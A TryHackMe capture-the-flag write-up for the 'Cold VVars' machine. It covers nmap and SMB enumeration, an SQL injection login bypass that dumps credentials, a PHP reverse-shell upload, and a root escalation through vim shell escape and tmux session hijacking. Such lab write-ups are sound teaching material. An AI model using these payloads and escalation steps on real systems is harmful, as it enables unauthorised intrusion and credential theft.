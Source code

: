 # Cold VVars TryHackMe Writeup

### Initial enumeration
```
PORT     STATE SERVICE     REASON         VERSION
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
8080/tcp open  http        syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8082/tcp open  http        syn-ack ttl 63 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=7/10%OT=139%CT=%CU=41081%PV=Y%DS=2%DC=T%G=N%TM=60E99075%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)
WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 44.802 days (since Wed May 26 18:05:11 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: INCOGNITO

Host script results:
|_clock-skew: mean: -59m58s, deviation: 1s, median: -59m59s
| nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   INCOGNITO<00>        Flags: <unique><active>
|   INCOGNITO<03>        Flags: <unique><active>
|   INCOGNITO<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 58670/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 46410/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 16428/udp): CLEAN (Failed to receive data)
|   Check 4 (port 30799/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-07-10T11:20:04+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-10T11:20:03
|_  start_date: N/A
```

Using enum4linux we can get some information on SMB:  
![image](https://user-images.githubusercontent.com/65077960/125161314-84c92800-e179-11eb-8dc8-85205e33c0fd.png)  

We have some user accounts too:   
![image](https://user-images.githubusercontent.com/65077960/125161347-b3df9980-e179-11eb-8b37-6c4a456d01bc.png)  

We can't access the "SECURED" share  
![image](https://user-images.githubusercontent.com/65077960/125161400-0a4cd800-e17a-11eb-9eb8-a94b32cc432f.png)  
Let's check out the website on port 8080 instead.   

![image](https://user-images.githubusercontent.com/65077960/125161438-5009a080-e17a-11eb-8ad1-38a1976e5873.png)    
> An Ubuntu machine with SMB shares? That's rare  

There's two files (got from Uniscan), index.html and index.php  
![image](https://user-images.githubusercontent.com/65077960/125161476-85ae8980-e17a-11eb-957b-f33d99fd9cbe.png)  
Nothing but the word "data", or at least that's all we can see. What about 8082?  

![image](https://user-images.githubusercontent.com/65077960/125161505-b098dd80-e17a-11eb-860b-0adfdc8363e5.png)    
That's a little more interesting, we'll run uniscan against this too.  
### User Own

We've got /login, we might be able to bypass it? Let's try SQLI, we'll use the following payload:  
```
" or 1=1 or "
```
We get 4 usernames and passwords (Including ArthurMorgan). We can try sign in with the creds but we just get the creds echoed back at us. Let's try that SMB share instead:  
![image](https://user-images.githubusercontent.com/65077960/125162242-a973ce80-e17e-11eb-9156-acc52f74f7f1.png)  
We see there's a note in the SECURED share, we'll download it and see what it says.  
```
Secure File Upload and Testing Functionality
```
That's not particulary helpful, or is it?   
I took a step back and looked at port 8080, there's a note on the website too:   
![image](https://user-images.githubusercontent.com/65077960/125162308-ff487680-e17e-11eb-8782-283f277b37f4.png)  
What if we upload a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), let's try it.  
![image](https://user-images.githubusercontent.com/65077960/125162370-5a7a6900-e17f-11eb-97aa-ee2bf9c26762.png)  

We're in, we'll upgrade our shell and su into Arthur's account.
> python3 -c 'import pty;pty.spawn("/bin/bash")'

![image](https://user-images.githubusercontent.com/65077960/125162418-98778d00-e17f-11eb-8941-06c0d2caaea6.png)  
We can find the user flag in Morgan's home directory

### Root Own  
We have a file in our home directory called ideas:  
```
I don't know why I don't get any ideas to write here...
```
Nothing that interesting, let's keep looking. I'll upload linpeas via a python server and execute it.  
There's a strang environment variable:  
![image](https://user-images.githubusercontent.com/65077960/125162872-2b192b80-e182-11eb-9234-ccc75230da6b.png)  
We can set up a netcat listener on the shell that we've got and see what it does.  
![image](https://user-images.githubusercontent.com/65077960/125162906-5a2f9d00-e182-11eb-9fd4-281fd5a49476.png)  
Let's see what we can do! We can select the 4th option and get access to vim. We'll spawn a shell using:
```
:set shell=/bin/sh
:shell
```
![image](https://user-images.githubusercontent.com/65077960/125162971-d5914e80-e182-11eb-91be-21d63ee55f5d.png)  
Our shell is pretty unstable, let's create another reverse shell. We'll upgrade our shell using python then exploit tmux to get a shell as root.
```
export TERM=xterm
tmux attach-session -t 0
```
and then exit over and over until we get our shell. The root flag can be found in root's home directory!


